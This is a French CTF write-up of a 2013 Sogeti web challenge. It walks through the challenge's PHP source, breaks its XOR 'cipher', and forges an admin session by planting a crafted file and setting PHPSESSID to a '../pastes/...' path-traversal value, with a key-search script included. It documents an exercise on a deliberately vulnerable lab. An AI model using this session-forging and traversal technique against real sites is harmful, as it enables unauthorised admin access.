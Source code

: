 = Writeup challenge Sogeti
:hp-tags: security
:published_at: 2013-06-28


Dans cet article je vais décrire les étapes nécessaire à la résultion d'un challenge réalisé à l'occasion d'un "security event" organisé par Sogeti le 25 juin 2013.

Sur la page d'accueil le message suivant est présent :

 Ce site web vous propose de stocker vos messages en ligne tout en les chiffrant à l'aide d'un algorithme inviolable.
 Votre but est d'accéder à la zone d'administration du site, une partie du code source est aussi disponible

== Un algorithme inviolable ?

Première étape, il va s'intéresser à cette algorithme soit disant inviolable.

[source, php]
.add.php
----
<?php

include 'includes/init.php';

if(isset($_POST['message']) && isset($_POST['password']) && strlen($_POST['password']) >= 5)
{
    $name_file = md5(microtime());
    $cipher = cipher_it($_POST['message'], stripslashes($_POST['password']));
    $f = fopen(PASTE_DIRECTORY.$name_file, 'w+');
    fwrite($f, $cipher);
    fclose($f);
    header("Location: show.php?id=".$name_file."&password=".urlencode(stripslashes($_POST['password'])));
    exit;
}

$pagename = "add";
$title = "Nouveau message";
include 'includes/header.php';
?>
----

La fonction utlisée pour encoder le message est `cipher_it` et prend en argument le message ainsi qu'un mot de passe pour l'encoder.

Cette même fonction est utilisée pour décoder le message :

[source, php]
----
<?php

include 'includes/init.php';

if(!isset($_GET['id']) || !isset($_GET['password']) || preg_match("/^[0-9a-f]{32}$/", $_GET['id']) == false)
{
    header("Location: index.php");
    exit;
}

if(!is_file(PASTE_DIRECTORY.$_GET['id']))
{
    header("Location: index.php");
    exit;
}

$f = fopen(PASTE_DIRECTORY.$_GET['id'], "rb");
$content = cipher_it(fread($f, filesize(PASTE_DIRECTORY.$_GET['id'])), $_GET['password']);
fclose($f);

$pagename = "show";
$title = "Voir un message";
include 'includes/header.php';

    echo "<fieldset class=\"event_form\" style='text-align:left;'><pre style='background:transparent;'>".htmlspecialchars($content)."</pre></fieldset>";

include 'includes/footer.php';
?>
----

Cela signifie que si l'on applique deux fois la fonction permettant d'encoder le message avec le même mot de passe, on retombe sur le message d'origine. On pense alors à la fonction *xor* souvent utilisée en crypto et qui possède cette propriété. De plus, on observe qu'il est possible d'accéder au message chiffré car la constante *PASTE_DIRECTORY* est définie dans le fichier *consts.php*.

[source, php]
----
<?php
define('PASTE_DIRECTORY', __DIR__.'/../pastes/');
?>
----

Les fichiers seront donc accessibles à partir de cette adresse :

    http://217.109.132.34/challenge/pastes/[MD5]

On va faire un petit test pour vérifier cette hypothèse. Si on chiffre le message test1 avec la clé test1 on se retrouve avec cette url :

    http://217.109.132.34/challenge/show.php?id=56499aff7b85dd3778f3572b1b822176&password=test1

Pour accéder au message chiffré il faut se rendre à l'adresse suivante :

    http://217.109.132.34/challenge/pastes/56499aff7b85dd3778f3572b1b822176

Quand on ouvre le fichier avec un éditeur de texte on se retrouve avec que des zéros :

    0000 0000 00

C'est donc bien la fonction `xor` qui est utilisée pour chiffrer les messages. On est donc désormais en mesure de créer des fichiers sur le serveur dont on maîtrise le contenu.

== Accès à la page d'administration

L'objectif premier de ce challenge est d'accéder à la page d'administration, jeton un coup d'oeil au code source :

[source, php]
----
<?php

include 'includes/init.php';

$pagename = "admin";
$title = "Administration";
include 'includes/header.php';

if(!isset($_SESSION['admin']) || $_SESSION['admin'] !== true)
{
    header("Location: index.php");
    exit;
}

define('ADMIN', true);
include 'admin_ok.php';

include 'includes/footer.php';
?>
----

On remarque qu'il n'est possible d'accéder à la page d'administration que si la variable de session admin est à true. Il nous faudrait donc un moyen nous permettant de manipuler la session.

== Gestion des sessions

Intéressons nous maintenant aux fichiers `init.php` et `class_session.php` :

[source, php]
----
<?php
class SuperSessionHandler{
    private $savePath;

    public function open($savePath, $sessionName){
        $this->savePath = $savePath;
        if (!is_dir($this->savePath)) {
            mkdir($this->savePath, 0777);
        }
        return true;
    }

    public function close(){
        return true;
    }

    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }

    public function write($id, $data){
        return file_put_contents("$this->savePath/$id", $data) === false ? false : true;
    }

    public function destroy($id){
        $file = "$this->savePath/$id";
        if (file_exists($file)) {
            unlink($file);
        }
        return true;
    }

    public function gc($maxlifetime){
        foreach (glob("$this->savePath/*") as $file) {
            if (filemtime($file) + $maxlifetime < time() && file_exists($file)) {
                unlink($file);
            }
        }

        return true;
    }
}
?>
----

[source, php]
----
<?php

include 'includes/fonctions.php';
include 'includes/consts.php';
include 'includes/class_sessions.php';

error_reporting(0);

$s = new SuperSessionHandler();
session_save_path(__DIR__.'/../sessions/');
session_set_save_handler (
        array(&$s, 'open'),
        array(&$s, 'close'),
        array(&$s, 'read'),
        array(&$s, 'write'),
        array(&$s, 'destroy'),
        array(&$s, 'gc')
        );
session_start();
?>
----

On remarque qu'une classe a été crée permettant de redéfinir la manière dont seront stockées les sessions, les sessions sont stockée dans le dossier *sessions*. Pour accéder à la session il faut se rendre à l'adresse :

    http://217.109.132.34/challenge/sessions/[PHPSESSID]

Si on regarde de plus près la fonction `read`, il s'avère que le paramètre `id` n'est pas du tout contrôlé !

[source, php]
----
<?php
    public function read($id){
        return (string)@file_get_contents("$this->savePath/$id");
    }
?>
----

On est donc en mesure de choisir le fichier qui sera utilisé comme session est modifiant le `PHPSESSID`.

== Résolution de l'épreuve

Si on récapitule :

 * Il nous est possible de créer sur le serveur un fichier au contenu arbitraire
 * Pour accéder à la page d'administration il faut modifier sa session
 * On a de la chance la gestion des sessions est personnalisée

On va donc crée un message chiffré qui sera utilisé comme fichier de session afin de se faire passer pour l'admin. Le contenu du fichier de session avec la variable admin à `true` ressemble à ça :

    admin|b:1;

Pour obtenir le message chiffré j'ai créé un petit script qui me génère une clé afin que le premier texte chiffré ne contienne que des caractère imprimables.

[source, php]
----
<?php
function xor_this($string,$key) {
 // Our plaintext/ciphertext
 $text =$string;

 // Our output text
 $outText = '';

 // Iterate through each character
 for($i=0;$i<strlen($text);)
 {
     for($j=0;($j<strlen($key) && $i<strlen($text));$j++,$i++)
     {
         $outText .= $text{$i} ^ $key{$j};
         //echo 'i='.$i.', '.'j='.$j.', '.$outText{$i}.'<br />'; //for debugging
     }
 }
 return $outText;
}

function generateRandomString($length = 10) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, strlen($characters) - 1)];
    }
    return $randomString;
}

while(1){
    $key =generateRandomString();
    if(ctype_print(xor_this('admin|b:1;',$key))){
        echo $key."<br/>";
        echo ctype_print(xor_this('admin|b:1;',$key));
        die();
    }
}
?>
----

Le principe est simple je génère une chaine de caractère aléatoire de même taille que le texte à chiffrer et je vérifie que le texte obtenu en sortie est constitué uniquement de caractère imprimables avec la fonction `ctype_print`.

Clés qui fonctionnnent :

    Y3BFOWOXlV
    KYNZAPHCcC
    GZV2KSEpds

Une fois que l'on a la clé il suffit de chiffrer le message une première fois avec la clé, pour chiffrer à nouveau le résultat avec cette même clé.

    Clé     : FJQ5VPSStf
    Message : admin|b:1;
    Cipher  : '.<\8,1iE]

    Clé     : FJQ5VPSStf (clé)
    Message : '.<\8,1iE] (cipher)
    Cipher  : admin|b:1;

On se rend à l'adresse du message chiffré et on retrouve bien notre message d'origine

Il ne reste plus qu'a changé la valeur du `PHPSESSID` pour qu'il pointe sur notre message. Pour cela j'ai utilisé l'extension "Edit this cookie" pour Chrome et j'ai remplacé la valeur du `PHPSESSID` par :

    ../pastes/2790cdae372837fbc4347f63990bda54

Et voila si l'on se rend sur la page d'administration le message affiché est désormais :

 Félicitations !
 Le message caché est :
 Si tu es arrivé(e) jusque là c'est que tu peux aller jusqu'Issy !

Au final une épreuve pas très compliquée mais intéressante :)
